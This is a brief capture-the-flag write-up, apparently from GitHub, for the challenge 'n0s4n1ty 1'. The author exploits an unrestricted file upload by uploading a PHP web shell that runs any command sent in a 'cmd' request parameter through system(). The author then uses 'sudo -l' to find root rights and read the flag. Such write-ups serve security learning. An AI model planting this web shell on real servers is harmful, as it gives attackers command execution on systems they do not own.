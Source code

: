# n0s4n1ty 1

This is a simple arbituary file upload to rce

we have a webapage with an upload function
so i created a ```rev.php``` to upload with the content 
```php
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

```

![Screenshot from 2025-03-18 22-45-22](https://github.com/user-attachments/assets/f8ad9f60-8e01-4f3d-ab76-3b77b0d51cb9)

i uploaded the rev.php file

![Screenshot from 2025-03-18 22-44-38](https://github.com/user-attachments/assets/9bee0b27-4608-4562-8c8d-b42fb1b35aae)

The payload works

![Screenshot from 2025-03-18 22-44-38](https://github.com/user-attachments/assets/f9c4b7fc-dda6-46f9-8f2e-5658101e0ebe)

The flag is located in the ```root``` directory so running ```sudo -l``` i noticed we can run commands as root

![Screenshot from 2025-03-18 22-49-46](https://github.com/user-attachments/assets/f28b43d1-62e7-46ab-a650-421f9e87a6f5)

## Getting the flag

![Screenshot from 2025-03-18 22-52-19](https://github.com/user-attachments/assets/650fca57-fbc8-4849-b05a-c97d055d1be0)
